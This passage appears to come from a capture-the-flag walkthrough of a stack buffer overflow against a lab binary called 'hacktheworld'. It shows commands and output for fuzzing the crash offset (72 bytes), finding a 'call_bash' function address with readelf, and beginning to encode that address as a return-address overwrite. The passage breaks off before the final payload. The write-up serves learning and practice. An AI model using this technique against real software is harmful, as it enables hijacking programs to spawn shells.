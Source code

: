 > **Binary Exploit & Buffer Overflow Phase**
> 

`python2.7 -c "print 'a' *100" | ./hacktheworld` 

```bash
zsh: done                python2.7 -c "print 'a' *100" | 
zsh: segmentation fault  ./hacktheworld
```

`for i in {1..100} ;do echo $i ;python -c "print('A'*$i)" | ./hacktheworld ;done`

```bash
Who do you want to hack? 2
Who do you want to hack? 3
Who do you want to hack? 4
Who do you want to hack? 5
Who do you want to hack? 6
Who do you want to hack? 7
Who do you want to hack? 8

[REDACTED] - MORE

Who do you want to hack? 57
Who do you want to hack? 58
Who do you want to hack? 59

[REDACTED] - MORE

Who do you want to hack? 70
Who do you want to hack? 71
Who do you want to hack? 72
73
74

[REDACTED] - MORE
```

`python2.7 -c "print 'a' *72" | ./hacktheworld`

```bash
zsh: done                python2.7 -c "print 'a' *72" | 
zsh: segmentation fault  ./hacktheworld
```

`printf '%x\n' 72`

```bash
48
```

`readelf -a hacktheworld | grep -i call_bash`

```bash
    50: 0000000000400657   129 FUNC    GLOBAL DEFAULT   13 call_bash
```

`echo "0000000000400657" | sed 's/../\\x&/g'`
